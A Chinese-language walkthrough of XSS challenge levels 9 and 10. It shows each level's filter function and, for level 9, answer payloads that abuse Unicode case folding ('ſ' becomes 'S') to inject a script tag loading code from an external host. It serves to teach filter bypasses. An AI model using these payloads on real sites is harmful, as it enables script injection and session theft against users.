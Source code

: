 ### 背景知识

比较奇怪的是，js 中的换行符跟 unicode 中的不一致。另外，HTML 代码的注释可以在 Javascript 中使用

## Level 9

* * *

该题使用正则`<([a-zA-Z])`，导致无法注入 HTML 标签。但是 toUpperCase()函数是支持 Unicode 函数。字符`ſ`经过函数 toUpperCase()处理后，会变成 ASCII 码字符"S"。

### 代码

```
function escape(input) {
    // filter potential start-tags
    input = input.replace(/<([a-zA-Z])/g, '<_$1');
    // use all-caps for heading
    input = input.toUpperCase();

    // sample input: you shall not pass! => YOU SHALL NOT PASS!
    return '<h1>' + input + '</h1>';
}

```

### 答案

26 个字符通杀浏览器的答案

```
<ſcript/ſrc=//⒕₨></ſcript>

```

或者使用 async

```
<ſcript/async/src=//⒛₨>

```

## Level 10

* * *

这个题目使用两个正则过滤。比较容易

### 代码

```
function escape(input) {
    // (╯°□°）╯︵ ┻━┻
    input = encodeURIComponent(input).replace(/prompt/g, 'alert');
    // ┬──┬ ﻿ノ( ゜-゜ノ) chill out bro
    input = input.replace(/'/g, '');

    // (╯°□°）╯︵ /(.□. \）DONT FLIP ME BRO
    return '<script>' + input + '</script> ';
}

```
